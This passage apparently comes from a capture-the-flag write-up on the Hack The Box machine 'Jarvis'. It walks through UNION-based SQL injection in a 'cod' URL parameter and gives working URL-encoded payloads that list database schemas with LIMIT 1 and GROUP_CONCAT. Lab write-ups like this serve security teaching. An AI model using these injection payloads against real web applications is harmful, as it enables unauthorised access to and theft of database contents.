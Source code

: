 However, if we add the `LIMIT 1` clause to our query, we get a response of `hotel`. This is because we can currently only display one line at a time. The `LIMIT 1` query cuts our responses off at the first result, allowing it to be displayed.

SQL Query:

```sql
select schema_name FROM information_schema.schemata limit 1
```

URL-encoded Parameter:

```
cod=99999+union+select+"1","2",(select+schema_name+FROM+information_schema.schemata+limit+1),"4","5","6","7"
```

<a href="/assets/htb-jarvis/schemata_limit1.png"><img src="/assets/htb-jarvis/schemata_limit1.png" width="95%"></a>

We can get around this limitation by using the `GROUP_CONCAT()` function to display our results in a single line. 

SQL Query:

```sql
select group_concat(schema_name,":") FROM information_schema.schemata
```

URL-encoded Parameter:

```
cod=99999+union+select+"1","2",(select+group_concat(schema_name,"%3a")+FROM+information_schema.schemata),"4","5","6","7"
```
